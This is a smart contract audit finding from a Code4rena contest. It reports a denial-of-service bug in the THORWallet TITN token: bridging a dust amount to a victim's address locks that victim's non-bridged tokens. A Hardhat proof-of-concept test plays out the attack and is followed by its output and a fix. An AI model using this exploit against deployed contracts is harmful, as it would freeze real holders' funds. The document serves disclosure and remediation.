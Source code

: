 # THORWallet

## Contest Summary

Code under review: [2025-02-thorwallet](https://github.com/code-423n4/2025-02-thorwallet) (216 nSLOC)

Contest Page: [thorwallet-contest](https://code4rena.com/audits/2025-02-thorwallet)

## DoS Attack on Non-Bridged Token Holders via Bridging

## Finding description and impact

An attacker can convert TGT tokens to ARB.TITN using the `MergeTgt` contract and bridge them to any arbitrary user's address. If the recipient on the other chain holds non-bridged tokens and has unrestricted transfer capabilities, receiving the bridged tokens triggers the `Titn:_credit` function. This function updates `isBridgedTokenHolder[user's address] = true`, effectively revoking the user's ability to transfer their non-bridged tokens freely.

### Impact

This vulnerability is critical because an attacker can execute the exploit with a minimal amount of tokens (as low as `1000 Gwei ARB.TITN`) to indiscriminately restrict the transferability of any non-bridged token holder on `BASE.TITN`. Since the attack does not require significant cost or effort, it could be exploited on a mass scale, disrupting user activity and breaking expected token behavior.

## PoC

### Code Modification

- Adjustments are required in `Titn.sol` to facilitate Hardhat testing, including modifying `block.chainid` for local testing purposes.

```diff
contract Titn is OFT {
+   uint256 public block_chainid; // TODO need to remove this one

    constructor(
        string memory _name,
        string memory _symbol,
        address _lzEndpoint,
        address _delegate,
        uint256 initialMintAmount,
+       uint256 _block_chainid // TODO need to remove this one
    ) OFT(_name, _symbol, _lzEndpoint, _delegate) Ownable(_delegate) {
        _mint(msg.sender, initialMintAmount);
        lzEndpoint = _lzEndpoint;
        isBridgedTokensTransferLocked = true;
+       block_chainid = _block_chainid; //TODO need to remove this one
    }

    function _validateTransfer(address from, address to) internal view {
        // Arbitrum chain ID
        uint256 arbitrumChainId = 42161;

        // Check if the transfer is restricted
         if (
            // Restrict bridged token holders OR apply Arbitrum-specific restriction
            from != owner() // Exclude owner from restrictions
                && from != transferAllowedContract // Allow transfers to the transferAllowedContract
                && to != transferAllowedContract // Allow transfers to the transferAllowedContract
                && isBridgedTokensTransferLocked // Check if bridged transfers are locked
                && (isBridgedTokenHolder[from] ||
-               block.chainid == arbitrumChainId)
+               block_chainid == arbitrumChainId)
                && to != lzEndpoint // Allow transfers to LayerZero endpoint
        ) {
            revert BridgedTokensTransferLocked();
        }
    }



}
```

### Test Case Setup

- The following test scenario initializes the necessary contracts and sets up token distributions for the attacker and legitimate users.

```diff
+   let attacker: SignerWithAddress
+   let user1_base: SignerWithAddress
+   let user2_base: SignerWithAddress

 beforeEach(async function () {

        baseTITN = await Titn.deploy(
            'baseTitn',
            'baseTITN',
            mockEndpointV2A.address,
            ownerA.address,
            ethers.utils.parseUnits('1000000000', 18),
+           8453 // block_chainid
        )

        arbTITN = await Titn.deploy(
            'arbTitn',
            'arbTITN',
            mockEndpointV2B.address,
            ownerB.address,
            ethers.utils.parseUnits('0', 18),
+           42161 // block_chainid
        )

+       // attacker got TGT tokens on Arbitrum
+       await tgt.connect(ownerB).transfer(attacker.address, ethers.utils.parseUnits('1000', 18))

+       // users on base chain got Non-Bridged TITN tokens
+       await baseTITN.connect(ownerA).transfer(user1_base.address, ethers.utils.parseUnits('1000', 18))
+       await baseTITN.connect(ownerA).transfer(user2_base.address, ethers.utils.parseUnits('1000', 18))
    })


```

### Attack Execution

- This test demonstrates how an attacker can manipulate the bridging mechanism to lock a non-bridged token holder’s ability to transfer tokens.

```javascript
 describe('Attack', function () {
        it('non-bridged token holder transfer failed', async function () {
            console.log('user1_base Non-Bridged TITN balance : ', await baseTITN.balanceOf(user1_base.address))
            console.log('user2_base Non-Bridged TITN balance : ', await baseTITN.balanceOf(user2_base.address))

            console.log('user1_base can freely transfer his non-bridged tokens to user2_base')
            await baseTITN.connect(user1_base).transfer(user2_base.address, ethers.utils.parseUnits('2', 18))

            console.log('user1_base Non-Bridged TITN balance : ', await baseTITN.balanceOf(user1_base.address))
            console.log('user2_base Non-Bridged TITN balance : ', await baseTITN.balanceOf(user2_base.address))

            console.log('Attacker converting TGT to ARB.TITN through MergeTgt contract')
            await tgt.connect(attacker).approve(mergeTgt.address, ethers.utils.parseUnits('100', 18))
            await tgt.connect(attacker).transferAndCall(mergeTgt.address, ethers.utils.parseUnits('100', 18), '0x')

            console.log('Attacker claiming TITN tokens')
            const claimableAmount = await mergeTgt.claimableTitnPerUser(attacker.address)
            await mergeTgt.connect(attacker).claimTitn(claimableAmount)

            const options = Options.newOptions().addExecutorLzReceiveOption(200000, 0).toHex().toString()
            console.log(attacker.address)
            const sendParam = [
                eidA,
                ethers.utils.hexZeroPad(user1_base.address, 32),
                ethers.utils.parseUnits('0.000001', 18),
                ethers.utils.parseUnits('0.000001', 18),
                options,
                '0x',
                '0x',
            ]

            const [nativeFee] = await arbTITN.quoteSend(sendParam, false)
            console.log('Attacker bridging as low as 1000 GWei to user1_base address instead of his own')
            await arbTITN.connect(attacker).send(sendParam, [nativeFee, 0], attacker.address, { value: nativeFee })

            console.log('user1_base tries to send his non bridged BASE.TITN to user2_base')
            try {
                await baseTITN.connect(user1_base).transfer(user2_base.address, ethers.utils.parseUnits('1', 18))
                expect.fail('Transaction should have reverted')
            } catch (error: any) {
                console.log('error.message', error.message)
                console.log('TRANSFER FAILED MEANWHILE THE USER1_BASE WAS A NON BRIDGED TOKEN HOLDER')
                expect(error.message).to.include('BridgedTokensTransferLocked')
            }
        })
    })
```

### Test Command

- Execute the following command to reproduce the issue:

```bash
npx hardhat test --grep "non-bridged token holder transfer failed"
```

### Expected Output

- The expected output confirms that a non-bridged token holder is unable to transfer their tokens after the attack, validating the exploit.

```bash

  MergeTgt tests
    Attack
user1_base Non-Bridged TITN balance :  BigNumber { value: "1000000000000000000000" }
user2_base Non-Bridged TITN balance :  BigNumber { value: "1000000000000000000000" }
user1_base can freely transfer his non-bridged tokens to user2_base
user1_base Non-Bridged TITN balance :  BigNumber { value: "998000000000000000000" }
user2_base Non-Bridged TITN balance :  BigNumber { value: "1002000000000000000000" }
Attacker converting TGT to ARB.TITN through MergeTgt contract
Attacker claiming TITN tokens
0x976EA74026E726554dB657fA54763abd0C3a0aa9
Attacker bridging as low as 1000 GWei to user1_base address instead of his own
user1_base tries to send his non bridged BASE.TITN to user2_base
error.message VM Exception while processing transaction: reverted with custom error 'BridgedTokensTransferLocked()'
TRANSFER FAILED MEANWHILE THE USER1_BASE WAS A NON BRIDGED TOKEN HOLDER
      ✔ non-bridged token holder transfer failed (39ms)


  1 passing (776ms)
```

## Tools Used

Manual code review / Hardhat tests

## Recommended mitigation steps

- Modify the function in `Titn.sol:send` to ensure that users can only bridge `ARB.TITN` tokens to their own address.

```solidity
import { SendParam, OFTReceipt, MessagingReceipt, MessagingFee } from "@layerzerolabs/oft-evm/contracts/interfaces/IOFT.sol";

function send(
  SendParam calldata _sendParam,
  MessagingFee calldata _fee,
  address _refundAddress
)
  external
  payable
  virtual
  override
  returns (MessagingReceipt memory msgReceipt, OFTReceipt memory oftReceipt)
{
  require(
    _sendParam.to == bytes32(uint256(uint160(msg.sender))),
    "OFT: INVALID_TO_ADDRESS"
  );
  return super._send(_sendParam, _fee, _refundAddress);
}
```
